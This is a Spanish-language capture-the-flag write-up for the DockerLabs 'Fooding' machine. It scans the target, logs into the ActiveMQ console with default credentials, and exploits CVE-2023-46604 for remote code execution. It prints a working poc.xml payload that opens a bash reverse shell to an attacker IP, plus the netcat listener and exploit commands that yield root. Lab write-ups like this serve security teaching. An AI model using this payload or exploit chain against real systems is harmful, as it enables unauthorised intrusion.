

**Plataforma:** Dockerlabs\
**Sistema Operativo:** Linux

> **Tags:** `Linux` `Web` `ActiveMQ` `Default Credentials` `CVE-2023-46604` `RCE` `Exploit` 

## INSTALACIÓN

Descargamos el `.zip` de la máquina desde DockerLabs a nuestro entorno y seguimos los siguientes pasos.

```bash
unzip fooding.zip
```

La máquina ya está descomprimida y solo falta montarla.

```bash
sudo bash auto_deploy.sh fooding.tar
```

Info:

```

                            ##        .         
                      ## ## ##       ==         
                   ## ## ## ##      ===         
               /""""""""""""""""\___/ ===       
          ~~~ {~~ ~~~~ ~~~ ~~~~ ~~ ~ /  ===- ~~~
               \______ o          __/           
                 \    \        __/            
                  \____\______/               
                                          
  ___  ____ ____ _  _ ____ ____ _    ____ ___  ____ 
  |  \ |  | |    |_/  |___ |__/ |    |__| |__] [__  
  |__/ |__| |___ | \_ |___ |  \ |___ |  | |__] ___] 
                                         
                                     

Estamos desplegando la máquina vulnerable, espere un momento.

Máquina desplegada, su dirección IP es --> 172.17.0.2

Presiona Ctrl+C cuando termines con la máquina para eliminarla
```

Una vez desplegada, cuando terminemos de hackearla, con un `Ctrl + C` se eliminará automáticamente para que no queden archivos residuales.

## ESCANEO DE PUERTOS

A continuación, realizamos un escaneo general para comprobar qué puertos están abiertos y luego uno más exhaustivo para obtener información relevante sobre los servicios.

```bash
nmap -n -Pn -sS -sV -p- --open --min-rate 5000 172.17.0.2
```

```bash
sudo nmap -n -Pn -sCV -p80,443,1883,5672,8161 --min-rate 5000 172.17.0.2
```

Info:
```
Starting Nmap 7.98 ( https://nmap.org ) at 2026-02-27 16:03 +0100
Nmap scan report for 172.17.0.2
Host is up (0.000092s latency).

PORT      STATE SERVICE  VERSION
80/tcp    open  http     Apache httpd 2.4.59 ((Debian))
|_http-title: Apache2 Debian Default Page: It works
|_http-server-header: Apache/2.4.59 (Debian)
443/tcp   open  ssl/http Apache httpd 2.4.59 ((Debian))
|_ssl-date: TLS randomness does not represent time
| tls-alpn: 
|_  http/1.1
|_http-server-header: Apache/2.4.59 (Debian)
| ssl-cert: Subject: commonName=example.com/organizationName=Your Organization/stateOrProvinceName=California/countryName=US
| Not valid before: 2024-04-17T08:32:44
|_Not valid after:  2025-04-17T08:32:44
|_http-title: DockerLabs | Plantilla gratuita Bootstrap 4.3.x
1883/tcp  open  mqtt
| mqtt-subscribe: 
|   Topics and their most recent payloads: 
|     ActiveMQ/Advisory/MasterBroker: 
|_    ActiveMQ/Advisory/Consumer/Topic/#: 
5672/tcp  open  amqp?
| fingerprint-strings: 
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, GetRequest, HTTPOptions, RPCCheck, RTSPRequest, SSLSessionReq, TerminalServerCookie: 
|     AMQP
|     AMQP
|     amqp:decode-error
|_    7Connection from client using unsupported AMQP attempted
|_amqp-info: ERROR: AQMP:handshake expected header (1) frame, but was 65
8161/tcp  open  http     Jetty 9.4.39.v20210325
|_http-title: Error 401 Unauthorized
|_http-server-header: Jetty(9.4.39.v20210325)
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  basic realm=ActiveMQRealm
61613/tcp open  stomp    Apache ActiveMQ
| fingerprint-strings: 
|   HELP4STOMP: 
|     ERROR
|     content-type:text/plain
|     message:Unknown STOMP action: HELP
|     org.apache.activemq.transport.stomp.ProtocolException: Unknown STOMP action: HELP
|     org.apache.activemq.transport.stomp.ProtocolConverter.onStompCommand(ProtocolConverter.java:258)
|     org.apache.activemq.transport.stomp.StompTransportFilter.onCommand(StompTransportFilter.java:85)
|     org.apache.activemq.transport.TransportSupport.doConsume(TransportSupport.java:83)
|     org.apache.activemq.transport.tcp.TcpTransport.doRun(TcpTransport.java:233)
|     org.apache.activemq.transport.tcp.TcpTransport.run(TcpTransport.java:215)
|_    java.base/java.lang.Thread.run(Thread.java:840)
61614/tcp open  http     Jetty 9.4.39.v20210325
|_http-title: Site doesn't have a title.
|_http-server-header: Jetty(9.4.39.v20210325)
| http-methods: 
|_  Potentially risky methods: TRACE
61616/tcp open  apachemq ActiveMQ OpenWire transport 5.15.15
2 services unrecognized despite returning data. If you know the service/version, please submit the following fingerprints at https://nmap.org/cgi-bin/submit.cgi?new-service :
==============NEXT SERVICE FINGERPRINT (SUBMIT INDIVIDUALLY)==============
SF-Port5672-TCP:V=7.98%I=7%D=2/27%Time=69A1B260%P=x86_64-pc-linux-gnu%r(Ge
SF:tRequest,89,"AMQP\x03\x01\0\0AMQP\0\x01\0\0\0\0\0\x19\x02\0\0\0\0S\x10\
SF:xc0\x0c\x04\xa1\0@p\0\x02\0\0`\x7f\xff\0\0\0`\x02\0\0\0\0S\x18\xc0S\x01
SF:\0S\x1d\xc0M\x02\xa3\x11amqp:decode-error\xa17Connection\x20from\x20cli
SF:ent\x20using\x20unsupported\x20AMQP\x20attempted")%r(HTTPOptions,89,"AM
SF:QP\x03\x01\0\0AMQP\0\x01\0\0\0\0\0\x19\x02\0\0\0\0S\x10\xc0\x0c\x04\xa1
SF:\0@p\0\x02\0\0`\x7f\xff\0\0\0`\x02\0\0\0\0S\x18\xc0S\x01\0S\x1d\xc0M\x0
SF:2\xa3\x11amqp:decode-error\xa17Connection\x20from\x20client\x20using\x2
SF:0unsupported\x20AMQP\x20attempted")%r(RTSPRequest,89,"AMQP\x03\x01\0\0A
SF:MQP\0\x01\0\0\0\0\0\x19\x02\0\0\0\0S\x10\xc0\x0c\x04\xa1\0@p\0\x02\0\0`
SF:\x7f\xff\0\0\0`\x02\0\0\0\0S\x18\xc0S\x01\0S\x1d\xc0M\x02\xa3\x11amqp:d
SF:ecode-error\xa17Connection\x20from\x20client\x20using\x20unsupported\x2
SF:0AMQP\x20attempted")%r(RPCCheck,89,"AMQP\x03\x01\0\0AMQP\0\x01\0\0\0\0\
SF:0\x19\x02\0\0\0\0S\x10\xc0\x0c\x04\xa1\0@p\0\x02\0\0`\x7f\xff\0\0\0`\x0
SF:2\0\0\0\0S\x18\xc0S\x01\0S\x1d\xc0M\x02\xa3\x11amqp:decode-error\xa17Co
SF:nnection\x20from\x20client\x20using\x20unsupported\x20AMQP\x20attempted
SF:")%r(DNSVersionBindReqTCP,89,"AMQP\x03\x01\0\0AMQP\0\x01\0\0\0\0\0\x19\
SF:x02\0\0\0\0S\x10\xc0\x0c\x04\xa1\0@p\0\x02\0\0`\x7f\xff\0\0\0`\x02\0\0\
SF:0\0S\x18\xc0S\x01\0S\x1d\xc0M\x02\xa3\x11amqp:decode-error\xa17Connecti
SF:on\x20from\x20client\x20using\x20unsupported\x20AMQP\x20attempted")%r(D
SF:NSStatusRequestTCP,89,"AMQP\x03\x01\0\0AMQP\0\x01\0\0\0\0\0\x19\x02\0\0
SF:\0\0S\x10\xc0\x0c\x04\xa1\0@p\0\x02\0\0`\x7f\xff\0\0\0`\x02\0\0\0\0S\x1
SF:8\xc0S\x01\0S\x1d\xc0M\x02\xa3\x11amqp:decode-error\xa17Connection\x20f
SF:rom\x20client\x20using\x20unsupported\x20AMQP\x20attempted")%r(SSLSessi
SF:onReq,89,"AMQP\x03\x01\0\0AMQP\0\x01\0\0\0\0\0\x19\x02\0\0\0\0S\x10\xc0
SF:\x0c\x04\xa1\0@p\0\x02\0\0`\x7f\xff\0\0\0`\x02\0\0\0\0S\x18\xc0S\x01\0S
SF:\x1d\xc0M\x02\xa3\x11amqp:decode-error\xa17Connection\x20from\x20client
SF:\x20using\x20unsupported\x20AMQP\x20attempted")%r(TerminalServerCookie,
SF:89,"AMQP\x03\x01\0\0AMQP\0\x01\0\0\0\0\0\x19\x02\0\0\0\0S\x10\xc0\x0c\x
SF:04\xa1\0@p\0\x02\0\0`\x7f\xff\0\0\0`\x02\0\0\0\0S\x18\xc0S\x01\0S\x1d\x
SF:c0M\x02\xa3\x11amqp:decode-error\xa17Connection\x20from\x20client\x20us
SF:ing\x20unsupported\x20AMQP\x20attempted");
==============NEXT SERVICE FINGERPRINT (SUBMIT INDIVIDUALLY)==============
SF-Port61613-TCP:V=7.98%I=7%D=2/27%Time=69A1B25B%P=x86_64-pc-linux-gnu%r(H
SF:ELP4STOMP,289,"ERROR\ncontent-type:text/plain\nmessage:Unknown\x20STOMP
SF:\x20action:\x20HELP\n\norg\.apache\.activemq\.transport\.stomp\.Protoco
SF:lException:\x20Unknown\x20STOMP\x20action:\x20HELP\n\tat\x20org\.apache
SF:\.activemq\.transport\.stomp\.ProtocolConverter\.onStompCommand\(Protoc
SF:olConverter\.java:258\)\n\tat\x20org\.apache\.activemq\.transport\.stom
SF:p\.StompTransportFilter\.onCommand\(StompTransportFilter\.java:85\)\n\t
SF:at\x20org\.apache\.activemq\.transport\.TransportSupport\.doConsume\(Tr
SF:ansportSupport\.java:83\)\n\tat\x20org\.apache\.activemq\.transport\.tc
SF:p\.TcpTransport\.doRun\(TcpTransport\.java:233\)\n\tat\x20org\.apache\.
SF:activemq\.transport\.tcp\.TcpTransport\.run\(TcpTransport\.java:215\)\n
SF:\tat\x20java\.base/java\.lang\.Thread\.run\(Thread\.java:840\)\n\0\n");
MAC Address: 02:42:AC:11:00:02 (Unknown)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 32.59 seconds
```

Identificamos varios puertos abiertos, destacando servicios como `Apache httpd` en los puertos `80` y `443`, y varios puertos relacionados con `ActiveMQ` (1883, 5672, 8161, 61613, 61614, 61616).

Accedemos por el puerto `80` a través del navegador, pero no encontramos nada muy relevante.

## ENUMERACIÓN ACTIVEMQ

A continuación, accedemos al puerto `8161`, que parece interesante por estar corriendo un servidor `Jetty`.

Al intentar entrar en la web, nos salta un prompt solicitando unas credenciales de acceso.



Probamos suerte intentando acceder con credenciales por defecto.

```
User: admin
Password: admin
```

Logramos acceder con éxito y nos encontramos frente a un panel de `Apache ActiveMQ`. 

Navegamos a la ruta `/admin` y ahí nos encontramos con la versión exacta del software que está corriendo.


Confirmamos que se trata de `ActiveMQ` en su versión `5.15.15`.

## EXPLOTACIÓN

Procedemos a buscar exploits públicos asociados a esta versión concreta de `ActiveMQ` y descubrimos que es vulnerable a `CVE-2023-46604`, un fallo que permite `RCE`.

Nos descargamos un exploit funcional desde `GitHub` hacia nuestra máquina atacante.

```Bash
git clone https://github.com/evkl1d/CVE-2023-46604
cd CVE-2023-46604
```

Una vez dentro del directorio, vemos un archivo llamado `poc.xml`. Este es el payload que debemos modificar para inyectar nuestra `IP` y el `puerto` donde estaremos a la escucha.

Lo editamos de la siguiente manera, sustituyendo los valores por los de nuestra máquina atacante `192.168.1.43` y el puerto elegido `9001`.

```Bash
nano poc.xml
```

```XML
<?xml version="1.0" encoding="UTF-8" ?>
    <beans xmlns="http://www.springframework.org/schema/beans"
       xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
       xsi:schemaLocation="
     http://www.springframework.org/schema/beans http://www.springframework.org/schema/beans/spring-beans.xsd">
        <bean id="pb" class="java.lang.ProcessBuilder" init-method="start">
            <constructor-arg>
            <list>
                <value>bash</value>
                <value>-c</value>
                <value>bash -i &gt;&amp; /dev/tcp/192.168.1.43/9001 0&gt;&amp;1</value>
            </list>
            </constructor-arg>
        </bean>
    </beans>
```

Guardamos el archivo. 

Para que la máquina víctima pueda obtener e interpretar este `.xml` malicioso, levantamos un servidor `HTTP` con `Python` en el mismo directorio.

```Bash
python3 -m http.server 8080
```

En otra pestaña de nuestra terminal, ponemos un `listener` con `Netcat` por el puerto indicado.

```Bash
sudo nc -nlvp 9001
```

A continuación, lanzamos el exploit apuntando a la `IP` de la máquina víctima por el puerto `61616` y pasándole la `URL` de nuestro archivo `.xml` alojado.

```Bash
python3 exploit.py -i 172.17.0.2 -p 61616 -u http://192.168.1.43:8080/poc.xml
```

Info:
```
     _        _   _           __  __  ___        ____   ____ _____ 
    / \   ___| |_(_)_   _____|  \/  |/ _ \      |  _ \ / ___| ____|
   / _ \ / __| __| \ \ / / _ \ |\/| | | | |_____| |_) | |   |  _|  
  / ___ \ (__| |_| |\ V /  __/ |  | | |_| |_____|  _ <| |___| |___ 
 /_/   \_\___|\__|_| \_/ \___|_|  |_|\__\_\     |_| \_\\____|_____|

[*] Target: 172.17.0.2:61616
[*] XML URL: http://192.168.1.43:8080/poc.xml

[*] Sending packet: 000000731f000000000000000000010100426f72672e737072696e676672616d65776f726b2e636f6e746578742e737570706f72742e436c61737350617468586d6c4170706c69636174696f6e436f6e74657874010020687474703a2f2f3139322e3136382e312e34333a383038302f706f632e786d6c
```

El exploit se ha ejecutado correctamente. 

Volvemos a la ventana donde teníamos nuestro `listener` a la espera.

Info:
```
listening on [any] 9001 ...
connect to [192.168.1.43] from (UNKNOWN) [172.17.0.2] 47348
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
root@3421e4fd7290:/# whoami
root
root@3421e4fd7290:/#
```

Debido a que el servicio se estaba ejecutando con los máximos privilegios, recibimos la `reverse shell` directamente como el usuario `root`.

Ya somos root!
